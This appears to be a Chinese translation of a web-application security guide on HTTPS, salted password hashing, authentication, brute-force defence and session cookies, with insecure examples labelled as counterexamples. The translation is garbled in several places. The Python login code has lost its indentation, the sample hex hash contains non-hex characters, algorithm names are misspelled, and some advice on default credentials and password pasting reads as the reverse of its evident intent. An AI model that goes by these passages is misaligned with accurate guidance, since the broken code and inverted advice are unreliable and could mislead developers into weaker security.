最后一步，你应该验证你的配置。有一个很有用的在线工具，你可以访问SSL实验室SSL Server Test URL：https://www.ssllabs.com/ssltest/ 来做一个配置的深度检查来验证你没有配置错误，由于这个工具会针对新型攻击来更新，所以最好每隔几个月运行一次。

<h3>小结</h3>
#整站使用HTTPS
#使用HSTS来执行它
#如果你希望信任一般浏览器那么你需要一个信任机构的证书。
#保护好私钥
#使用配置工具来帮助采用安全的HTTPS配置
#在cookie中设置安全标志
#不要在URL中泄露敏感信息
#在允许HTTPS后每过几个月验证服务器的配置

<h2>哈希和Salt你的用户密码</h2>

当开发应用时，你需要针对攻击者来保护你的资源。你经常需要保护用户远离攻击，真是远离他们自己。

危险的生活

密码认证最显然的方式是存储用户名和密码在表中后以反对的眼光查看，不要这样做：

-- SQL
CREATE TABLE application_user (
        email_address VARCHAR(100) NOT NULL PRIMARY KEY,
        password VARCHAR(100) NOT NULL
)

# python
def login(conn, email, password):
result = conn.cursor().execute(
        "SELECT * FROM application_user WHERE email_address = ? AND password = ?",
        [email, password])
return result.fetchone() is not None

这个可以工作吗？它是否可以允许有效用户进入，禁止未注册用户？是的，但是下面是为什么这是一个非常错的的想法。

<h3>风险</h3>

不安全的密码存储给自己和用户都会带来风险。对于前者，一个读取application_user表开发者或DBA可以访问你的整个用户群。一个容易忽视的风险是开发者可以模仿用户进入系统。即使这种特定场景并不是最该担心的，不适用适当的加密方式存储你的用户密码会引入一个全新的攻击方式，让你的用户应用解绑。
我们希望这是另一方面，但事实是用户认证重用。用户第一次登录你的猫图网站和他银行账户使用相同的邮箱，你相对不安全的数据库变成了一个存储金融凭证的媒介。如果一个流氓雇员或者外部攻击者偷走你的数据，他们可以使用猫图网站的用户名密码来登录银行网站知道他们发现有人使用相同的登录信息，然后你的用户将造成资金损失，你或多或少都有责任。
两点建议：要么安全的存储，要么不要存储。

<h3>我可以哈希密码</h3>

如果你的网站有登录页面，第二个选择则不可行，你大概只能选择第一个，所以怎么引入强壮的安全存储。

第一，你永远不能存储密码本身，而是要存储一个密码的哈希。一种哈希加密算法是不可逆转换，对于所有实际用途，不可能恢复。事实上针对更多的“实际用途”。比如，你的密码也许是“littlegreenjedi”。使用Argon2 和 salt “12345678”（后面会介绍salt）和默认的命令行option，你的最终16禁止密码是：96b432143215321gre424325314243531a1，现在只需要存储这个哈希。当用户输入密码时，你转换成哈希发送，然后验证两个哈希是否匹配。

因此我们就大功告成了，对不对？不完全是。现在问题是如果我们不改变salt，所有用户使用密码“littlegreenjedi”都会得到相同hash。一些用户会使用它们的老密码。观察表中相同的哈希密码在根据密码使用率是可以反向破解得到密码的。已过一个攻击者得到你的数据库，它们可以利用统计学交叉引用你的哈希密码查找表在很短时间内提取你的密码。

绝招是使用不可预测性到你的密码中，这样就不能做逆向工程。你可以这样来使用salt。

<h3>少放点盐</h3>

salt是添加到密码中的外部数据，可以使两个相同的密码得到不同的值。这里需要做的事增加hash密码的可能性区间来超越重计算的可能性。当然“littlegreenjedi”就不能再被预测了。那么如果一个攻击者得到所有的hash，对他们来说破解也会变得异常昂贵。
salt不需要加密混淆等特别保护。他可以在hash的旁边，或者编码一下，或作为bcrypt。如果你的密码表落入攻击者手上并可以访问salt不会帮助他们攻击这些hash密码。
salt应该全球用户唯一。OWASP推荐32或64bit salt如果你可以管理，NIST需要最小128bit。 可以使用UUID，但使用它就有点矫枉过正，它容易生成，但会花费更多存储。哈希和salting是一个好的开始，但是我们继续往下看，这也许都不够。

悲伤的是，所有的哈希算法创建不同的哈希，SHA-1 和MD5 成为长时间的标准直到出现低成本碰撞攻击，幸运的是仍有很多慢的低碰撞的备选方案。是的，很慢，一个很慢的算法意味着暴力破解需要更长时间，花费更高。

最好的广泛认为最好的算法是script和bscypt。因为现代SHA算法和PBKDF2抵挡不知GPUs的攻击，他们也许并不是长期战略。注释：技术上Argon2， script， bscypt 和PBKDF2 是使用秘钥拉伸（key stretching）技术的秘钥导出函数（key derivation function），我们可以根据我们的目的来创建hash。

<table class="hash-algorithms">
<thead><tr><th>Hash Algorithm</th><th>Use for passwords?</th></tr></thead>

<tbody><tr><td>scrypt</td><td>Yes</td></tr>

<tr><td>bcrypt</td><td>Yes</td></tr>

<tr><td>SHA-1</td><td>No</td></tr>

<tr><td>SHA-2</td><td>No</td></tr>

<tr><td>MD5</td><td>No</td></tr>

<tr><td>PBKDF2</td><td>No</td></tr>

<tr><td>Argon2</td><td>watch (see sidebar)</td></tr>
</tbody></table>

选择使用一个适当的算法，并且配置正确，秘钥导出函数可以配置迭代数，被称为工作因子，可以让硬件更快，你可以增加暴力破解的时间。OWASP提供推荐的方法来配置你的密码存储小抄（URL：https://www.owasp.org/index.php/Password_Storage_Cheat_Sheet）如果你想让你的应用面向未来，你可以添加配置参数到密码存储，同样，沿用哈希和salt。那样，你可以提升工作因子，你这么做不会破坏现有用户也不需要做迁移，同样，你甚至可以同时支持多个来让你在算法进化中摒弃被弃用的，使用更好的算法。


<h3>哈希的另一件事</h3>

上面讲的真正需要改变我们代码的不是存储密码到明文文本，而是你存储salt，hash和工作因子。就是说一个用户第一次输入密码，你生成一个salt然后得到密码哈希值。然后用户登录时，你使用salt来生成密码哈希对比存储哈希，就像这样：

CREATE TABLE application_user (
        email_address VARCHAR(100) NOT NULL PRIMARY KEY,
        hash_and_salt VARCHAR(60) NOT NULL
)

def login(conn, email, password):
result = conn.cursor().execute(
        "SELECT hash_and_salt FROM application_user WHERE email_address = ?",
        [email])
user = result.fetchone()
if user is not None:
        hashed = user[0].encode("utf-8")
return is_hash_match(password, hashed)
return False

def is_hash_match(password, hash_and_salt):
salt = hash_and_salt[0:29]
return hash_and_salt == bcrypt.hashpw(password, salt)

这个例子使用python的bcrypt类库，将存储salt和工作因子在hash中。如果你打印hashpw()的值，你会看到他们在一个string中。并不是所有类库都这么做。有些输出没有salt和工作因子的原始哈希，需要你添加到hash中存储。但结果是相同的，你使用salt和工作因子来生成一个hash，并确保与你第一次创建的密码的原始生成值匹配。


<h3>小结</h3>

这很明显，所有的上述建议都建立在你的密码存储服务所处的位置。如果你的密码存储代表着用户可以访问其他系统，你的工作意味着更加复杂，你最好的办法是不要这样做因为你没有选择必须存储原始密码，而不是哈希。理想情况是第三方可以支持类似SAML，OAUTH或者类似的机制。如果没有，你需要仔细想想怎么存储它，在哪存储它，和怎么访问它，它是一个非常复杂的威胁模型，很难做对做好。

一些网站无厘头的限制了你密码长度，即使你哈希和salt正确，如果你的密码长度很短，或者允许字符区间太窄，你大幅减少可能密码的概率，更容易被暴力破解。OWASP推荐最少八位包含字母和字符。 url：https://www.owasp.org/index.php/Password_length_%26_complexity 维基百科有一篇文章 乔治亚工学院研究中推荐12个随机字符。最终的目标不是长度，而是能量，如果你不能有效的执行随机密码生成，那么请遵守下面的好规定：
#最低12个字符数字和符号
#最大长度越长越好，比如100. OWASP推荐最长160个字符来避免传递长密码来拒绝服务攻击。这要取决于你的应用的需求
#提示你的用户一些信息如下
##使用密码管理工具
##随机生成长密码
##不要复用密码
#不怕禁止黏贴密码框，这样会让密码管理工具失效

如果你的安全需求非常严格，你也许需要想想超越密码策略比如双因子验证，你的安全就不在仅仅依赖密码。NIST和维基百科都非常详细的解释了字符长度和设定长度限制。如果的资源受限，你可以根据GPU集群和密钥空间速度得到具体系统花费。但是对于大多数情况，这种级别的安全需求已经不需要来找到一个合适的密码策略了。

<h3>小结</h3>
#哈希和salt你的所有密码
#使用被证明充分慢和安全的密码策略
#理想情况下，是你的密码存储机制可发展可配置
#避免存储外部服务和系统的密码
#不要把密码长度设定太短，不要把字符区间这是太窄

<h2>验证用户身份安全</h2>

如果我们需要知道用户的身份，比如，控制谁收到了特定内容，我们需要提供一些验证的表单。如果我们想要保留用户请求登录一次的认证，我们需要提供session管理。尽管大家都知道而且有很多全功能支持的类库，有两个错误的实施在OWASP 前十名赢得前两位。
认证和授权是不一样的概念，认证证明一个用户是真实的。比如，当你登录到你的银行，你的银行会验证确实是你而不是一个攻击者试图窃取你的钱财。认证定义一个用户是否有权执行一些操作。你的银行也许使用授权来允许你查看透支限额，但是不允许你去改变他。session管理捆绑认证和授权在一起。session管理使得一个特定用户发送相关特定的请求。没有session管理，用户在每次给服务器发送请求时就失去的授权。这三点，授权，认证，session管理- 适应于用户和服务。保持这三点在我们系统中分离可以减少复杂度和因此产生的风险。



有很多方法可以执行认证。无论你选的那种方式，明智之举是选择一个现存成熟的类库。这些类库每过一段时间就会被审查来避免一些通用错误。
一个总体的担心是当用户在互联网发送请求时怎么才能确保证书私有。最简单的，也是唯一的途径是，遵照之前说的，对一切使用HTTPS。
一种方式是使用HTTP协议指定的简单挑战-相应（challenge-response）机制来作为客户机向验证服务器。当你的浏览器遭遇包含挑战访问资源信息的401（unauthorized）响应，他会弹出一个对话框让你输入用户名和密码，并且保存在内存中随后使用。这种机制有缺点，最严重的是用户只能通过管理浏览器来登出系统。
一种安全的方式，允许你管理用户认证后session生命周期用过输入证书通过web表单。这种方式和从一个数据表中查找一个用户名在数据库中哈希的密码然后验证一样简单。比如使用Devise，一个流行的Ruby on Rails类库，这个可以用来注册一个密码认证模块来验证用户模型，在到达controller之前使用类库来认证用户。

# Register Devise’s database_authenticatable module in our User model to
# handle password authentication using bcrypt. We can optionally tune the work
# factor with the 'stretches' option.
        class User < ActiveRecord::Base
devise :database_authenticatable
end

# Superclass to inherit from in controllers that require authentication
class AuthenticatedController < ApplicationController
before_action :authenticate_user!
        end


<h3>了解你的选择</h3>
尽管认证使用用户名和密码对于很多系统已经足够，但是他并不是我们唯一的选择。我们可以依赖用户可能已经拥有账户的外部服务提供商来验证。我们也可以使用各种不同的选择来认证：一些你知道的东西，比如密码或PIN码，或者电话或钥匙包，也可以是指纹，看你需要什么了，这些选择值得认证考虑，如果我们需要添加额外的保护层是有益处的。
一种是提供给用户使用它们Facebook，google或twitter登录的便利选择，使用一个叫做单点登录的服务，单点登录允许用户登录不同系统使用单一身份。比如访问一个网站你可以看到“使用twitter账号登录”，想要这么做，单点登录依赖外部服务来管理用户登入和身份。用户永远不用给我们的站点提供任何证书。
单点登录可以显著减少登录站点的时间，也不需要用户需要记住其他用户名密码。然而一些用户可能更喜欢保留访问我们网站的私有信息在别处。一些没有账户的用户可以通过我们提供的外部提供商注册。最好的情况是允许用户输入个人信任手动注册。
只提供用户名和密码登录有时候不能有效的保证用户安全。使用其他其他验证因子可以添加一个安全层来保护用户在实践中泄露密码。双因子认证（2FA），一个两种不同因子的认证来确认用户身份。一些用户知道的，比如用户名密码认证，当做第一个认证因子，第二个因子应当时一些用户拥有，比如通过软件在用户手机上生成的密钥或者硬件token。通过短信来验证密钥是比以前较流行的做法，但是现在因为各种风险被弃用。像谷歌和其他应用提供的认证服务相对会比较安全和容易实现，尽管如果一个应用需要考虑管理敏感信息方面的复杂度会有所提高。

<h3>重新认证是重要的行为</h3>

登录并不是对于认证来说唯一重要的事情，当用户执行敏感行为比如修改密码或转账时，我们经常使用它来提供额外的保护。他可以帮我朱门在用户操作账户时减低泄露的风险。比如，一些在线商家当你买东西的时候需要你重新输入一些信用卡细节信息。对于用户更新个人信息时，需要重新输入密码是非常有用的。

<h3>隐瞒用户是否存在</h3>

当一个用户在输入用户名密码时出现错误，我们一般会受到一个提示：用户名不存在，提示一个用户是否存在可以帮助攻击者枚举你系统上的用户来提供未来的攻击或者，取决于网站的性质，揭露一个用户的存在可能泄露它的隐私。一个更好的，更通用的提示信息应该是：用户名或密码错误。
这个建议不仅仅应用于登录，用户在很多系统功能中可以被枚举，比如报名或者重设密码。铭记避免泄露不必要的信息。替代方案是在用户输入邮箱后发送一个邮件，使用链接来注册或重置密码，而不是返回一个用户名是否存在的消息。

<h3>防止暴力破解</h3>
一个攻击者可能进行暴力破解来猜测你的账户密码。现在攻击者一般可以使用被入侵的僵尸网络来进行攻击，找到一个预防侵入的方法很有挑战。有很多方法可以考虑，我们下面会讨论，大多数安全考虑，带来了好处的同时也会带来权衡。
一个很好的开始来减缓攻击者攻击的方法是当登录失败次数过多时暂时锁定用户。这可以减少一个账户被泄露的风险，但是它会带来另一个风险，攻击者使用这种服务来锁定用户。如果锁定需要管理员来手动解锁，他会给系统带来灾难。另外一方面，锁定用户可以会提供攻击者验证账户是否存在。当然，他会让增强攻击者的攻击难度。使用10到60秒可以有效的防御已经规避风险。
另外一个流行的做法是使用CAPTCHAs，就是提供一种只有人可以解决，计算机无法解决的防止自动攻击的方法。这是有效策略的一部分，但当面临指责和批评时就会减轻效果。技术的进步使得电脑解决这些问题更准确，雇佣一个人工智能机器来解决它也变得很便宜。而且一个重要的考量是让我们的网站对于是视觉听觉障碍的人变得可访问。
以上这些策略被视为应对暴力攻击有效的手段，如果一个账户登录错误两次，CAPTCHA就会出现，如果继续错误，账户会被暂时锁住。如果还是出现错误，会再次锁住账户，这次发送一个邮件给账户来解锁。

<h3>不要使用缺省或硬编码凭证</h3>
运输软件如果使用缺省凭证会很容易被猜测出给用户和应用都带来风险。看起来他给用户提供了便利，但是现实是远离真相。通常来看像路由器和物联网设备这样的嵌入式系统这样可以简单连接网络。更好的选择是需要用户输入一次密码然后不允许用户修改，或没有设定密码不允许访问外网。
有时硬编码凭证被添加到开发和调试程序中，当运输软件时可能忘记也会带来相同的风险。更坏的是，有可能用户可能修改或禁用凭证。永远不要在软件中硬编码凭证。

在类库中
大多数web应用类库包含认证实现来支持各种人份验证方案，还有一些三方类库也可以选择，正如我们前面提到的，我们最好可以找到一个存在的，成熟的类库。下面是一些例子：

<table class="input-validation-approaches">
<thead><tr><th>Framework</th><th>Approaches</th></tr></thead>

<tbody>
<tr class="even first"><td rowspan="2">Java</td><td>Apache Shiro</td></tr>

<tr class="even"><td>OACC</td></tr>

<tr class="odd first"><td rowspan="1">Spring</td><td>Spring Security</td></tr>

<tr class="even first"><td rowspan="1">Ruby on Rails</td><td>Devise</td></tr>

<tr class="odd first"><td rowspan="2">ASP.NET</td><td>ASP.NET Core authentication</td></tr>

<tr class="odd"><td>Built-in Authentication Providers</td></tr>

<tr class="even first"><td rowspan="1">Play</td><td>play-silhouette</td></tr>

<tr class="odd first"><td rowspan="1">Node.js</td><td>Passport framework</td></tr>
</tbody>
</table>

<h3>小结</h3>
#使用已经存在的验证框架而不要自己写
#支持你需要的有意义的认证方式
#限制攻击者控制一个账户的能力
#你应该一步一步的预防识别和泄露账户攻击
#不要使用默认的或硬编码凭证

<h2>保护用户Session</h2>
由于HTTP在用户访问过程中的无状态机制. 一般情况是使用Session管理未登录用户和认证用户状态.之前说过,session管理可以用在管理用户和服务中.

Session是对攻击者来说是很有吸引力的.如果一个攻击者破坏了session管理从而劫持了认证session,就可以有效地攻破真个认证体系.更坏的是,经常可以看到session管理的实现存在很大的风险,那么我们应该怎么做呢?

认证最好使用已经存在并且成熟的类库,然后调整到你需要的模式.使用已经存在的类库的好处是你可以专心在你需要什么,我们会分两部分讨论一下session管理的常见问题: session识别码生成, 和session生命周期.

<h3>生成安全Session识别码</h3>
一般来说Session会生成识别码并存储在Cookie中作为后续访问使用. 这些识别码的安全依靠不可预期性,唯一性和保密性.如果一个攻击者可以获取session识别码然后通过猜测或观察,他们就可以劫持这个用户的session.

经常可以看到一些安全识别码的实现方式可被预测造成很容易被破解.举个例子,我们可以看到这样的cookie:
Set-Cookie: sessionId=NzU4NjUtMTQ2Nzg3NTIyNzA1MjkxMg
如果一个攻击者登录多次来观察session cookie的生成序列会发生什么?
NzU4ODQtMTQ2Nzg3NTIyOTg0NTE4Ng
NzU4OTItMTQ2Nzg3NTIzNTQwODEzOQ
攻击者会发现,这个sessionid是base64编码的,然后使用base64解码得到:
75865-1467875227052912
75884-1467875229845186
75892-1467875235408139
非常简单可以看出这个token是由数字序列,和毫秒两部分组成,像这样的识别码攻击者可以轻易的猜到和劫持sessions.尽管这是简单的例子,其他的生成方式也不会比这个好太多.攻击者可以使用免费的分析工具来破解复杂的token.使用可预测的输入比如时间或用户ip来生成token都是不够的.那么怎么才能更安全的生成识别码?

减低攻击者猜测token最有效的方式请参见<a href="https://www.owasp.org/index.php/Session_Management_Cheat_Sheet">OWASP's Session管理小结</a>推荐使用最小128bit(16 bytes)的随机生成的session识别码.几个例子java和ruby都支持SecureRandom来生成随机数.

很多session管理为了减少数据库开销,将用户信息直接放入cookie中而不是只存放识别码在服务端进行查询.如果不使用非常严格的加密算法来确保数据的保密性,完整性,真实性,这会导致很多问题.

是否应当存储用户信息到cookie中应该慎重考虑,不应该轻易决策.原则是,除非绝对需要不要轻易把信息放入cookie.即使加密也永远不要存储个人机密身份识别码信息.如果信息中包含用户名或角色和特权级别,你必须防止攻击者篡改数据绕过认证或劫持其他用户账户的风险.如果你选择存储在cookie中存储这种类型的信息,寻找一个存在的并且经过专家审查的类库来处理他.

<h3>不要暴露session识别码</h3>
使用HTTPS可以帮助预防网络中窃取session识别码,但是仍然存在其他的泄露风险.一个经典的例子是,一个航空公司用户发送自己的链接给一个朋友,这个链接中包含了用户session识别码信息,那么他的朋友这时可以使用这个链接订机票.

不用说就知道,暴露session识别码在URL中有风险,就像上面的例子,暴露在Referer header中当点击一个外链,或登录网站的日志. Cookie是一个很好的选择因为它不存在这类风险.session识别码经常在HTTP header中发送或在POST body中,无所谓你选择哪种,确保session识别码不要暴露在URL中,日志中,referer header中或其他容易被攻击的地方.

<h3>保护你的Cookies</h3>
当cookies中保存session信息时,我们应该简单的预防泄露.这里有四个重要属性来预防: Domain, Path, HttpOnly 和Secure.
Domain用来限制cookie发送的区域,Path可以限制一个区域的路径和子路径. 默认情况下Domain设置允许发送到原始域和子域,默认的Path会限制cookie可以被发送到的路径和子路径.

不设定Domain限制会带来风险, 想象如果我们设定Domain到xxx.com 当访问payment.xxx.com来付款. 由于cookie会被发送到xxx.com和他所有的子域. 如果我们并不能控制每个子域或每个子域并不一定都使用https,应该确保cookie可以被发送到任何子域.因为这可能会帮助攻击者获取cookie,比如一个用户访问evil.xxx.com?
Path 属性也应该设定限定.如果登陆后,session识别码只需要在访问/secret/携带,那么设定Path为secret是非常好的.

其他两个属性,Secure和HttpOnly,控制cookie的使用. Secure代表浏览器只会在HTTPS下发送cookie, HTTPOnly代表cookie不允许通过javascript或其他客户端脚本访问.

这些属性全部设置后,我们的cookie会变成这样:
Set-Cookie: sessionId=[top secret value]; path=/secret/; secure; HttpOnly;
  domain=payments.xxx.com

这样设置后在网络传输中我们的cookie只允许在http://payment.xxx.com/secret中使用.大大降低被攻击的可能性.

<h3>管理session生命周期</h3>
管理session生命周期会减少泄露风险.这取决于你的需求.比如一个银行系统与猫图网站的session生命周期肯定不同.

大多数情况当用户第一次请求时或第一次登录时或获取session. 不管怎么做, 如果用户改变session权限级别都会存在风险.如果一个攻击者可以设置用户的session标识值到攻击者已知的更低权限会发生什么,比如通过cookie或表单隐藏域? 如果一个攻击者可以诱骗用户登录,他们就可以控制更多的session级别.这种攻击叫做"session fixaion".我们可以通过这两件事情来预防这种把戏.第一我们应该在用户登录后或提升权限后创建一个新的session.第二,我们只允许自己创建session识别码,忽略不存在的识别码.千万不要这么做:
// pseudocode. NEVER DO THIS
if (!isValid(sessionId)) {
    session = createSession(sessionId);
}

session存在的时间越长,攻击者就更有可能得到它.减少这类风险应该保证你的session表干净,我们可以在用户没有活动时加强session失效机制.失效时间决定你的风险妥协程度.一个猫图网站可以设置为一个月或更长.但是银行session失效策略应该十分钟.

我们用户很有可能忘记登出.一定要保证有一个简单可用的登出机制.当用户登出后,我们应该在浏览器端销毁session cookie通过设定失效日期.比如:
Set-Cookie: sessionId=[top secret value]; path=/secret/; secure; HttpOnly;
  domain=payments.martinfowler.com; expires=Thu, 01 Jan 1970 00:00:00 GMT

最后应该给同用户提供关闭所有有效session的方式.简单做法是关闭所有session当用户修改密码时. 如果能给用户提供一个查看有效session列表的功能可以帮助他们识别风险.

<h3>验证</h3>
在认证和session管理中有很多应该考虑的部分,如果你想确定没有犯错误,你可以看一看OWASP’s ASVS(<a href="https://www.owasp.org/index.php/Category:OWASP_Application_Security_Verification_Standard_Project">Application Security Verification Standard</a>),这是一个很有价值的资源来确保你的实现方式有没有漏洞.

<h3>类库</h3>
我们列出了一些生成session识别码和session生命周期管理的风险.幸运的是,session管理在主流的类库中都被支持,提供一些成熟的选项来使用可以规避风险.
<table class="input-validation-approaches">
<thead><tr><th>Framework</th><th>Approaches</th></tr></thead>

<tbody>
<tr class="even first"><td rowspan="4">Java</td><td>Tomcat</td></tr>

<tr class="even"><td>Jetty</td></tr>

<tr class="even"><td>Apache Shiro</td></tr>

<tr class="even"><td>OACC</td></tr>

<tr class="odd first"><td rowspan="1">Spring</td><td>Spring Security</td></tr>

<tr class="even first"><td rowspan="2">Ruby on Rails</td><td>Ruby on Rails</td></tr>

<tr class="even"><td>Devise</td></tr>

<tr class="odd first"><td rowspan="2">ASP.NET</td><td>ASP.NET Core authentication</td></tr>

<tr class="odd"><td>Built-in Authentication Providers</td></tr>

<tr class="even first"><td rowspan="1">Play</td><td>play-silhouette</td></tr>

<tr class="odd first"><td rowspan="1">Node.js</td><td>Passport framework</td></tr>
</tbody>
</table>

<h3>小结</h3>
#使用成熟的session类库
#保持session识别码机密性,不要放到URL或日志中.
#使用属性来限制保护session cookie的使用范围
#当一个不存在或修改权限级时创建一个新的session.
#不要使用id创建session,不要自己创建session
#确保用户可以登出系统以及可以销毁自己的所有有效session.

</pre>

</section>


    <footer>
        <div class="row">
            <div class="col-lg-12">
                <p>Copyright &copy; Jason.Bai 2016</p>
            </div>
        </div>
    </footer>

        <script type="text/javascript" src="assets/js/lib/jquery.min.js"></script>
        <script type="text/javascript" src="assets/js/lib/bootstrap.min.js"></script>
        <!--[if lte IE 9]>
        <script src="assets/js/lib/jquery.placeholder.min.js"></script>
        <![endif]-->
        <script src="assets/js/lib/require.min.js"></script>
        <script src="assets/js/homepage.js"></script>
    

  </body>

</html>
